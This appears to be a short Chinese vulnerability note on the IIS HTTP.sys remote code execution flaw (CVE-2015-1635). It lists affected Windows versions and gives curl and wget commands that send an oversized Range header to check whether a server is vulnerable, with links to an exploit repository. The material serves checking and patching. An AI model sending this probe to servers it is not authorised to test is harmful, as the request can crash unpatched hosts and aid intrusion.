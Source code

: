 >影响版本：
>安装了微软
>IIS 6.0以上的
>Windows Server 2008 R2/Server 2012/Server 2012 R2和Windows 7/8/8.1都受到这个漏洞的影响。

>漏洞描述：
>IIS远程代码执行漏洞存在于HTTP协议堆栈（HTTP.sys）中，
>当HTTP.sys不正确地解析HTTP请求时会导致此漏洞。

漏洞验证:
执行：
**curl url -H “Host:ip” -H “Range:bytes=0-18446744073709551615”**： 
wget http://www.host.com --header="Range: bytes=0-18446744073709551615"
- 若IIS服务器返回“requested range not satisfiable”，则是存在漏洞；
- 如果返回“the request has an invalid header name”，则说明漏洞已被修补。

参考链接：
https://github.com/helloexp/0day/tree/master/00-CVE_EXP/CVE-2015-1635

https://www.cnblogs.com/8ling/p/12823547.html

https://blog.csdn.net/qq_33608000/article/details/112798458
